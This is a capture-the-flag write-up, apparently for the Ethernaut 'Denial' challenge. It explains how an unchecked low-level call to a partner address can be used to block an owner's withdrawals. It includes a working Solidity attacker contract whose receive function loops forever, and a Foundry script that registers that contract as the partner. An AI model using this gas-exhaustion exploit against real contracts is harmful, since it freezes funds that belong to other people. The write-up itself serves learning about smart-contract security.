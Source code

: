 # Denial   
The goal of this challenge is to prevent the `owner` from `withdrawing` funds when they call the `withdraw()` function, while ensuring the contract still has funds and the transaction uses 1M gas or less.

The `withdraw()` function sends 1% of the contract’s Ether to a `partner` address using a low-level `call`. This is where the vulnerability lies. Since `call` forwards a limited amount of gas (63/64th of the remaining gas), we can exploit this to perform a Denial of Service (DoS) attack by consuming all the gas in the `receive` or `fallback` function of the partner contract.

#### Exploitation Strategy
1. Set Ourselves as the Withdraw `Partner`: We need to become the `partner` address so that the call in `withdraw()` sends Ether to our contract.
2. Consume All Gas: In our contract’s `receive` function, we can create an infinite loop or an operation that consumes all the gas, preventing the rest of the `withdraw()` function from executing.

I created a smart contract and a script to automate the exploitation process:

Solving.sol:   
```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.20;

contract Solving {

    function solve(address _victim) external {
        _victim.call(abi.encodeWithSignature("setWithdrawPartner(address)", address(this)));
    }

    receive() external payable {
        while (true) {}
    }
}

```
SolvingScript.s.sol:   
```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.20;

import {Script} from "forge-std/Script.sol";
import {Solving} from "src/Solving.sol";

contract SolvingScript is Script {

    Solving solving;
    address victim = ; // Your instance address

    function run() external {
        vm.startBroadcast();
        solving = new Solving();
        solving.solve(victim);
        vm.stopBroadcast();
    }
}
```